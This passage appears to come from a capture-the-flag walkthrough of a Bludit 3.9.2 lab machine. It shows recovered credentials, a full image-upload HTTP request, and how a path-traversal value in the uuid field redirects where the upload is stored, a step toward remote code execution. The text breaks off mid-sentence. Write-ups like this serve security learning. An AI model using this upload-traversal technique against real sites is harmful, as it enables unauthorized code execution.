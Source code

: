 On running this we get the credentials

    fergus : RolandDeschain
    

To determine the version of Bludit running, visiting

    http://10.10.10.191/admin/about

![](https://cdn-images-1.medium.com/max/2000/1*QJT9KvOAmEbNn68Mbfnn-g.png)

We get version 3.9.2. Googling this we can find RCE vulnerability present in this version.

Followed this [https://github.com/bludit/bludit/issues/1081](https://github.com/bludit/bludit/issues/1081) issue on Github to get RCE.

First, create new content, and add an image

![](https://cdn-images-1.medium.com/max/2000/1*yeAE1chtuZR94g5j24zVRA.png)

On uploading an image, it sends a post request with image data

    POST /admin/ajax/upload-images HTTP/1.1
    Host: 10.10.10.191
    Content-Length: 27550
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvdbAfQfvdjrTLooA
    Origin: [http://10.10.10.191](http://10.10.10.191)
    Referer: [http://10.10.10.191/admin/new-content](http://10.10.10.191/admin/new-content)
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,fr;q=0.8
    Cookie: BLUDIT-KEY=q5604mab2r7h11hua34crtng26
    Connection: close

    ------WebKitFormBoundaryvdbAfQfvdjrTLooA
    Content-Disposition: form-data; name="images[]"; filename="bear.jpg"
    Content-Type: image/jpeg

    **//imagedata**
    ------WebKitFormBoundaryvdbAfQfvdjrTLooA
    Content-Disposition: form-data; name="**uuid**"

    7f974f44bd782ce95b7822da7bfea72a
    ------WebKitFormBoundaryvdbAfQfvdjrTLooA
    Content-Disposition: form-data; name="tokenCSRF"

    3932e46b872ca59f022dd197c1b03b60b9f0d2c0
    ------WebKitFormBoundaryvdbAfQfvdjrTLooA--

Here **uuid** is the directory where the uploaded files are stored.

    http://10.10.10.191/bl-content/uploads/pages/uuid-value

If uuid is set to ../../tmp/temp, the file gets uploaded to
